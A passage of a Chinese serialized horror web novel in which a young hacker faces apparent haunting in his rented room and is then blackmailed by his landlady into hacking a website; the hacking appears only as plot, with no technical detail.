这时候大家才注意到老三背后那面墙，墙上有着模糊的红色痕迹，虽然模糊但是也可以依稀的看出那是一个人头影像。本来这个屋子就让人觉得怪怪的，看完了这面墙让大家更加的恐慌。

东方看到大家脸上那种恐惧的表情之后，只好自己亲自出手了。用手一点点的抹去墙皮上白色的粉末。这种粉末很容易擦掉，像是铅笔末，但是好像比铅笔末更有覆盖性。在东方起了带头作用后，大家也都开始拿着破布或者卫生纸向墙上蹭去。一副让大家惊魂不定的画面终于出现在了墙上。墙上是使用红色油漆勾勒出的图案，一个人躺在冰冷的水泥地上，前面是一个耸立的高楼，女人的眼睛尤为的突出，那是一双充满了鲜血的双眼，目光中带着凄惨，幽然的微笑，而更加奇怪的是，无论大家站在哪个角度，这个女人的眼睛都像是在紧盯着大家的双眼。更让东方感到不安的是，这个女人和这场景是被框在一个电脑显示器里的。这一幕正是东方前天晚上亲眼看到的，也是这几天来闭上眼睛就能看到的。

“救我，用你善良的心灵，用你高超的黑客技巧，当你娴熟的敲打着键盘，释放我灵魂出来的时候，就是你的生活归于平静的时刻！”老三念完这些的时候，双手挠头的对东方说道：“我觉得你好像得罪了那个女鬼，现在她好像有点没完没了的架势。这段话到底什么意思呢？”其实老三念不出来，大家也都看见了，只是没人把这段莫名其妙的话念出来而已。

一直沉默的老大看了看东方说道：“我常听你说入侵，破解什么的，你说这是不是别人故弄玄虚的啊？我觉得这个世界哪里有鬼啊？”

东方点了点头说道：“有可能，只是我总觉得最近这些日子所发生的事情很不简单。”

老二沉思了很久后说道：“东方，我觉得这里面的事情很复杂，你还是小心一点。我看还是守着这个屋子才能有很大的收获，要不就让老三、老四今晚就住这陪着你吧？”

“你怎么不陪呢？感情这里闹鬼了你让我陪着东方，别的好事你从来都不找我。就说上次……”老三看了看墙上那红色的油漆图案心里就开始发毛，不由自主的开始争辩了起来。

东方不好意思的说道：“不用陪我，我没事的，你们都很累了，早点回去休息吧！”

老四冲着老三翻了翻白眼说道：“真不像个男人，那咱东方你别上火，我陪着你睡。”老四的话刚说完，窗户“砰”的一声被一阵强风吹开，不停的拍打着墙壁，像是沉睡的恶魔突然惊醒，愤怒焦虑的嘶吼。

刚才还壮志豪情的老四“嗷”的一声直扑到东方的怀里，试想一下一个一米七八的男人搂住一个一米七五的男人，而且在这个男人的怀里瑟瑟发抖，那场面要多变态就有多变态。受到惊吓又受到性骚扰的东方简直毫不客气的把老四甩到了门外。用一种无比痛苦的口气怒道：“老四，你不要毁了我的清白好不好？我这纯洁之身是留给未来老婆的。”

东方的话刚刚说完，他所有的好兄弟都呈现呕吐状态，随后是一阵震耳欲聋的爆笑。

整个阴郁的房间里被这爽朗的笑声所驱赶，大家的心里都盛满了无限的开怀。年轻的资本就是轻狂，面对挫折一样可以大笑，一样可以站在风口浪尖谈笑风生。一阵喧闹后，一切归于平静，大家这才觉得疲惫，留下老四和东方就全部撤回大本营养精蓄锐去了。东方自然也是很疲惫，但是几天来发生的事情，让东方无法入睡，况且几天没有碰电脑，心里也有痒痒的感觉。身边的老四睡的跟死猪一样，嘴里叽里咕噜的也不知道说些什么，咬牙，打呼噜，说梦话，让东方简直无法忍受。这哪是找个做伴的，简直就是找个噪音发动机。

实在是忍受不了老四，东方悄悄的爬了起来，走到电脑前，轻轻打开了电脑，随着电脑启动的声音响起，东方感觉到莫名的兴奋，毕竟和自己这台心肝宝贝分别了好几天了。就在东方打开电脑的时候画面全部是红彤彤的，那颜色像极了鲜血。东方奇怪的伸出手去触碰屏幕，冰冷的凉。抬起手的时候，他惊呆了，电脑在流泪，血红色的泪！

（待续）


## 诡异的女房东

海边一粒沙

东方浩哲看了看手中的鲜血，双手不停的颤抖着。

“啊……”一声惊恐不安的叫声在安静的午夜响起，沉闷的夜被这声惊叫所惊醒，附近沉睡在夜幕中的千家万户都亮起了灯，安静的空气中突然多了许多的不安与恐惧。

“怎么了？东方，说话啊！”老四已经完全惊醒了，从床上跳了下来跑到东方的身边，一眼便看到东方手里的鲜血，吓了一跳还以为东方受伤了呢，连忙抓住东方的双手着急的问：“东方，你怎么了？”

东方目光呆滞的看了看老四，喃喃自语的说道：“我的电脑哭了，它哭了，流着血红色的泪。为什么会这样？难道鬼又来了？”

老四这才发现东方的手并没有受伤，电脑的屏幕上却都是血。老四呆了，静静的看着电脑和东方，空气因为长时间的寂静而变的有些让人窒息。血气方刚的老四叫嚷了起来：“NND，我不管你是谁，有屁就快点放，少在这里装神弄鬼的！”说完这些话的时候，仿佛在等待着或者神鬼或者其他什么生物的回答，但换来的却是更让人恐慌的寂静。

东方勉强站了起来，打开了日光灯，瞬间房间里一片雪白，他擦了擦手，安静的坐在床上抽着香烟，手指不停的颤抖着。良久才说道：“老四，我怎么总感觉像是掉进了一个巨大的漩涡，挣扎无力，也无法逃脱，你说这到底是不是鬼？”

老四沉默了，其实他不相信这个世界上真有鬼的存在，但是在这个房间里睡到半夜的时候，他明明感觉到自己的头脑很清醒，明明感觉到东方从床上站了起来，也感觉到东方恐慌和倔强的心情，但自己的身体却不受自己的控制，无论自己怎么努力，都无法动弹，这种感觉让老四很害怕，直到东方喊了起来，他才感觉自己又恢复了正常。就连坐在这个房间里的有些时候，他都会突然之间感觉到很冷，浑身的汗毛都会竖起来，一阵阵寒意席卷全身。这些感觉是前所未有的，所以当东方这样问的时候，老四真的不知道该怎么回答（其实很多时候大家也都会有这样的感觉，明明走在一个无人的小巷里，却明显的感觉有人跟在身后，但是回过头向后看，空荡荡的诡异，转身正常走路，前面也是空旷旷的恐怖）。

东方叹息着把老四扶了起来，一起坐在床上。老四提醒道：“你说你认识电脑里的那个女人吗？”东方摇摇头回答道：“不认识，从来都没见过，其实我更愿意相信是别人入侵我的电脑后故意在戏弄我！”听到东方这么说，老四点了点头：“我们应该调查一下这个女人，如果你不认识这个女鬼，那么她就没有理由伤害我们啊，所以还需要调查一下。”

东方也点了点头，他同意老四这么说，沉默了一会儿，看了看电脑血红色的屏幕，又看了看空荡荡的床对老四说道：“那我们还睡觉吗？”老四连忙摇摇头，一脸的恐惧：“我可不睡了，要不你睡吧，我守着你。”东方晃了晃脑袋，无非是害怕静止在静止或者无知觉的情况下被伤害而已。

“咚咚……”一阵敲门声，把惊魂未定的东方和老四吓了一跳，差点没喊出来。敲门声依旧，在寂静的夜里，而且是在这样一种特殊的情况下，没有一个人可以做到镇定。东方和老四互相推搡着走到门前，故意提高了声音壮胆：“谁……谁啊？”虽然两个人故作镇定，但是声音还是颤抖的，心虚的。

“咚咚咚”敲门声依然不断，但是却没有人回答。“不说话我可不给你开门啊？”老四大声的说道，然后等待着对方的回答，但是换来的却是门外的一片安静。门的另一边不再有任何声响了，这样古怪的情况更让老四和东方害怕起来，站在门口久久的不敢离去。

“嘀嗒，嘀嗒！”高跟鞋有节奏的踏着水泥地的声音渐渐远去，伴随着女人忧伤的歌声在门外飘荡。老四和东方不禁颤抖了起来，浑身上下起了一片片的鸡皮疙瘩。这样的场景也就只在小说或者香港的恐怖电影里才见过，没想到今天却真真切切的发生在了自己身上，还真让两人无法接受呢。

过了好久好久，那歌声早已飘远了，高跟鞋的声音也消失了。东方和老四才无力的坐回到床边，失魂落魄的紧盯着电脑的屏幕。老四拿出一块抹布，一点点的擦干电脑屏幕上红色的血迹，回过头看了看东方说道：“依我看啊，咱们越是害怕，这东西就越是欺负咱们，反正也睡不着，你检查下电脑里有病毒和木马吗？”

东方坐到电脑前，手摸着键盘既兴奋又觉得恐怖，在敲击了几下键盘后熟悉的感觉终于逐渐替代了恐慌的心情。他仔细的检查了一下电脑，但一切正常。老四站在旁边忧心忡忡的说道：“东方啊，要不明天找个道长驱驱邪吧，关键是不是知道这些脏东西是电脑里爬出来的，还是这屋子有问题啊！”

东方一脸茫然的看着老四说道：“你相信有那个东西？”老四摇摇头说道：“我也不知道！”

突然，电脑发出了警报，电脑的屏幕发出红色的光芒不停闪烁着，警报的声音一下子充斥在整个房间里。东方连忙按下了关机键，电脑一关机，房间里一下子就安静了起来。东方和老四此时已经满头是汗了。

无意间的瞟到了门前，东方看到一个白色女人的影子站在门前，一声不响的站在那里，像个死人一般。东方只是用眼角的余光看了一眼，心就忽忽了一下。小声的对老四说道：“老四，老四，你看看，门口好像有人。”

白色连衣裙在微风中摇曳，乌黑的长发遮挡着整个面容，惨白的灯光照射下瘦弱的身材显得有些干瘪，又有些诡异。老四差点没喊出来，但是却被东方紧紧的捂住了嘴巴，威胁着说道：“别喊，万一你一惊动了她们，把你吃了怎么办？”

老四吓得咳嗽了一下，连忙闭上了嘴巴。有些时候人们看到恐怖的场景，就像是受惊的孩子，一举一动都会让他们惊恐万分。白天还豪言壮志的老四现在就跟霜打的茄子一样发软，颤抖的说道：“她是谁啊？你认识吗？怎么跟死人似的一动不动啊？”

东方摇了摇头故作镇定的说道：“我哪知道她是谁啊，要不你过去问问？”老四连忙把脑袋摇的跟波浪鼓似的，回答道：“你怎么不自己过去问啊？谁知道她是人是鬼啊，你去问！”

“请问？你们没事吧？”女人扬起头，一脸的苍白却声音悠扬的说道。

老四和东方见这女人抬起了头，素面朝天的脸格外清秀，淡然的脸透露着几分动人。老四激动的跑到女人的面前说道：“我们没事，两个大男人怕什么啊？小姐你没事吧！”

女人淡淡的一笑，摇摇头说道：“没事，就是刚才好像有人叫了很大的一声，然后半天都没有声音了，我下来看看你们有没有事！”

老四一副劳苦功高的样子说道：“是我这朋友喊的，他最近精神有点不大好，所以我只好陪陪他了，我这人就是见不得别人有难。”

东方真想一脚给他踹出去，一脸鄙视的看了看老四，然后疑惑的问那女人：“你是谁啊？怎么进来的？”一脸的怀疑和排斥。试想你的屋子正在闹鬼，突然门口站着一个女人，放在谁身上都会怀疑的。也只有老四这种色狼才会以有色的眼光去评判一个人的好坏是非。另外，他感到这个女人很熟悉，好像在哪里见过一样。

女人不好意思的一笑，然后说道：“我叫小静，是这层楼的房东，不过你不认识我也是很正常的，因为这栋楼以前是我妈一个人住，她死后我就一直通过网络来租房，一直没有回国，所以我才不认识我的！”

东方恍然大悟：“原来你就是‘静止的云’啊？对不起，只是没见过你，所以……”

小静善意的笑了笑：“没关系，我可以理解的。”小静的笑容很醉人，一下子让整个房间的阴霾全部消失的一干二净。老四的魂都快被小静勾走了，但是小静似乎对东方很感兴趣，安静的坐在东方的身边说道：“我可以问你一个问题吗？”

东方早已经卸去了心理所有的防备，微笑着点点头。小静突然从身上拿出一张纸递给东方说道：“你看看，这上面的人你都认识吗？”

东方接过那张纸打开看了看，脸色剧烈的变化着，吃惊的看着小静却说不出任何话。老四看到这儿，好奇的一把抢过那张纸，才看到纸上密密麻麻的写着一些人的名字。老四不解的看了看眼里都是猜疑和怒火的老四和一脸得意满面春风的小静，不解的问道：“这是什么啊？你们都是什么表情啊？”

小静微笑着对东方说道：“看来你隐藏的很深啊，连你最好的朋友都不知道？”

东方一脸怒气的说道：“你到底是谁？到底有什么目的？”

“我是什么人并不重要，重要的是你对这些人也都很熟悉。”小静的得意在脸上无限的扩大着，而在东方的内心里却形成了大片大片的焦虑。

在一旁憋气的老四看到两个人都无视他，自尊心受到了强烈的打击，在一旁用尽所有的力气嗔道：“你们不要把什么事情都弄得像是悬疑片那么诡异好不好，快点告诉我到底是怎么回事？”

小静笑了笑说道：“我倒是想告诉你，但是你这位朋友也许不是很想哦！”

东方看着这个美丽的狐狸精简直快要气死了，这个家伙还真是会挑拨离间啊，看着老四一副要吃了自己的样子，只好说道：“其实这事知道的人越多，对你们就越没有利。”

老四摇了摇头说道：“你都不知道我是怎么想的呢，干吗要这么武断啊？”

东方以恳求的口吻说道：“其实她手里拿着的名单是我资助的贫困学生。”

老四一听没把鼻子气歪了，这算什么大事啊，却弄的那么神秘，没好气的说道：“你小子，嫖娼养的孩子跟人似的啊，早说啊？”

东方低下头像是做错事的孩子一样，过了半天才说道：“可是，你也知道我哪有那么多的钱啊，我都是从别人那偷的。”

“偷的？”老四一听眼珠子差点没掉出来，从来都没想过东方是这种人，他连忙把自己的钱包打开之后连数了三四遍。气得东方真想宰了这小子，呲牙咧嘴的喊着：“我只是通过网络赚钱来资助那些学生的。”

老四放心的说道：“东方，我真的很相信你的人品，我就知道你不会在现实中做这种事的。”东方满脸晦气的看着老四，刚才明明就是怀疑自己嘛，现在竟然转变的这么快，简直无语了。老四又一脸讨好的说道：“从网络上怎么赚钱啊？快点把方法告诉我吧。”

这个家伙，真是没法说了，东方无奈的说道：“要有一定的网络知识，你还得修炼几年。不过这件事一定要保密，要不然我就死定了。”东方转过头看着小静说道：“你今天来这里给我看了这些东西到底有什么目的呢？不会是单单聊天这么简单吧？”

“聪明！只是想让你黑个网站罢了！”小静平静的说着，那张轻笑淡漠的脸上总让东方觉得有一种猜不透的苍凉和忧伤。东方沉默了一会儿说道：“如果我不帮你呢？”

小静一副无所谓的样子说道：“不帮也行，那你入侵交易网站的事情我可就会不小心的透露给网监部门！”东方气的想要杀人，什么叫不小心，照这样看这死丫头是成心的。不过东方可不想下辈子在监狱里度过余生，所以马上一副人贱至无敌的模样说道：“帮，谁说不帮了，你的事就是我的事。”

小静甜甜的一笑站起身来：“好吧，等你拿下他们网站的时候我会再来的。”说完，调皮的笑了笑，转身离去了。

从东方升起的太阳在远处高耸的楼房上空一点点的跳跃，似乎很想冲破这黑夜的束缚，慢慢的染红了整片的天空。东方和老四傻傻的看着窗外清晨里的一切，那怒放的喇叭花，推着小车漫步在街头卖豆浆的吆喝声，一切仿佛都在寂静里重生。昨夜的惊魂和转变，仿佛如隔世般的迷乱。老四发傻的想念着小静的一眸一笑。东方却还在想象着电脑显示器上的血迹和小静那一行行名单上名字的由来。

沉默了一会儿，东方揉了揉眼睛慵懒的说道：“我想睡觉了，你睡不睡？”

听到东方说想要睡觉，老四也感觉好像有点儿困了，于是点点头，一头栽倒在了床上，不过一直都是睁着眼睛盯着屋顶。东方已经没有精力去揣摩他到底在想什么，现在他只有一个念头，那就是睡觉。

“铃铃……”正在睡梦中的东方被一阵电话铃声吵了起来，气愤的想把手机扔掉。

23
